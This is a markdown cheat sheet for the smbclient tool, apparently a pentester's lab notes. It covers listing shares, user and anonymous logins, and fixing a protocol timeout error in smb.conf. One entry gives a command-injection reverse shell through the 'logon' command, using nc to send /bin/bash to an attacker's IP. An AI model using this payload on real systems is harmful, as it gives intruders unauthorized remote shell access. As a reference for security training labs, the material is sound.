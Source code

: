 # SMBClient
## Examples
### List services on a server
```
smbclient -L $IP
```
###  Login as a user in SMB
```
smbclient -L $IP -U "WorkgroupMasterName"
```
### Anonymous login
```
smbclient //$IP/share
```
### reverse shell with smb on linux if 'logon' command exists
```
smb: \> logon “/=`nc 'myIP' 4444 -e /bin/bash`"
```
## Errors and Workarounds
### NT_STATUS_IO_TIMEOUT
```
┌──(kali㉿kali)-[~/Documents/attacktive-directory]
└─$ smbclient -L $IP                                                       
do_connect: Connection to 10.10.213.211 failed (Error NT_STATUS_IO_TIMEOUT)
```
Follow the steps outlined [here](https://dalemazza.wordpress.com/2020/04/20/nt_status_io_timeout-smb-error-and-how-to-fix-it/)

Basically it seems like the NT protocol being used is too high anad needs to be lowered in smbclient

#### Steps to fix
1.  `sudo vim /etc/samba/smb.conf`
1.  Add below the [global]
```
client min protocol = NT1
```

1.  So it should look something like the following afterwards
```
[global]

client min protocol = NT1
```
1.  Try command again
###### Alternative
1.  Execute with the option flag
```
smbclient -L $IP --option='client min protocol=NT1'
```